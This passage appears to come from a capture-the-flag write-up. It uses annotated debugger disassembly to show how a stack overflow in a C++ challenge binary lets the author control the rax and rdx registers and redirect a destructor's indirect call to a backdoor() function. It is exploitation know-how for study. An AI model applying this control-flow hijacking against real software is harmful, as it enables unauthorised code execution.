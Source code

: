## Arbitrary Execution

We go through and see this will cause SIGSEV when `rdx` doesn't point to a valid address, 
```
   0x4027d7 <std::default_delete<BOFApp>::operator()(BOFApp*) const+29>    mov    rdx, qword ptr [rax]
   0x4027da <std::default_delete<BOFApp>::operator()(BOFApp*) const+32>    add    rdx, 8
 ► 0x4027de <std::default_delete<BOFApp>::operator()(BOFApp*) const+36>    mov    rdx, qword ptr [rdx]
   0x4027e1 <std::default_delete<BOFApp>::operator()(BOFApp*) const+39>    mov    rdi, rax
   0x4027e4 <std::default_delete<BOFApp>::operator()(BOFApp*) const+42>    call   rdx
```

As long as you control the rax register, you can control the rdx register, which results in arbitrary execution.

This function takes out the data from the stack combined with the stack overflow above we can control the rax register.
```
 0x4025c9 <std::unique_ptr<BOFApp, std::default_delete<BOFApp> >::~unique_ptr()+57>    mov    rbx, rax
   0x4025cc <std::unique_ptr<BOFApp, std::default_delete<BOFApp> >::~unique_ptr()+60>    mov    rax, qword ptr [rbp - 0x18]
   0x4025d0 <std::unique_ptr<BOFApp, std::default_delete<BOFApp> >::~unique_ptr()+64>    mov    rdi, rax
 ► 0x4025d3 <std::unique_ptr<BOFApp, std::default_delete<BOFApp> >::~unique_ptr()+67>    call   std::remove_reference<BOFApp*&>::type&& std::move<BOFApp*&>(BOFApp*&)                      <std::remove_reference<BOFApp*&>::type&& std::move<BOFApp*&>(BOFApp*&)>
        rdi: 0x4022c6 (main+73) ◂— call 0xffffffffe907ac13
        rsi: 0x4022f1 (main+116) ◂— endbr64 
        rdx: 0x1
        rcx: 0x4022f1 (main+116) ◂— endbr64
```
    
Finally, we manage to control rdx register to point to the `backdoor()` function.
```
 0x4027d5 <std::default_delete<BOFApp>::operator()(BOFApp*) const+27>             je     std::default_delete<BOFApp>::operator()(BOFApp*) const+44                      <std::default_delete<BOFApp>::operator()(BOFApp*) const+44>
 
   0x4027d7 <std::default_delete<BOFApp>::operator()(BOFApp*) const+29>             mov    rdx, qword ptr [rax]
   0x4027da <std::default_delete<BOFApp>::operator()(BOFApp*) const+32>             add    rdx, 8
   0x4027de <std::default_delete<BOFApp>::operator()(BOFApp*) const+36>             mov    rdx, qword ptr [rdx]
   0x4027e1 <std::default_delete<BOFApp>::operator()(BOFApp*) const+39>             mov    rdi, rax
 ► 0x4027e4 <std::default_delete<BOFApp>::operator()(BOFApp*) const+42>             call   rdx                           <backdoor()>
        rdi: 0x4eb0c0 (user_canary) ◂— 0x4eb0c0
        rsi: 0x4eb0c0 (user_canary) ◂— 0x4eb0c0
        rdx: 0x402263 (backdoor()) ◂— endbr64 
        rcx: 0x4022f1 (main+116) ◂— endbr64 
 
   0x4027e6 <std::default_delete<BOFApp>::operator()(BOFApp*) const+44>             nop    
   0x4027e7 <std::default_delete<BOFApp>::operator()(BOFApp*) const+45>             leave  
   0x4027e8 <std::default_delete<BOFApp>::operator()(BOFApp*) const+46>             ret    
 
   0x4027e9                                                                         nop    
   0x4027ea <std::unique_ptr<BOFApp, std::default_delete<BOFApp> >::get() const>    endbr64 
```  
